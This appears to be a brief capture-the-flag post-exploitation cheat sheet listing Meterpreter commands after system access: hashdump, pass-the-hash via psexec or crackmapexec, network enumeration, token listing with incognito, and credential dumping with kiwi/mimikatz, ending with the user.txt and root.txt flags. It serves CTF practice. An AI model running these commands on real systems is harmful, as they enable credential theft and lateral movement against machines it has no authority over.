




LOOK AROUND
> sysinfo

> getuid

> hashdump

=> Can pass the hash with psexec, crackmapexec, ...
> shell

=> Search around the system for sentive files, access, ...
- network commands : - > arp -a
- > route print
- > netstat -ano
- incognito :
> load incognito
> list_tokens -u
- kiwi : (or mimikatz if x86 arch)
> load kiwi
> creads_all
> wifi_list
> ...
CAPTURE THE FLAG

- user.txt

- root.txt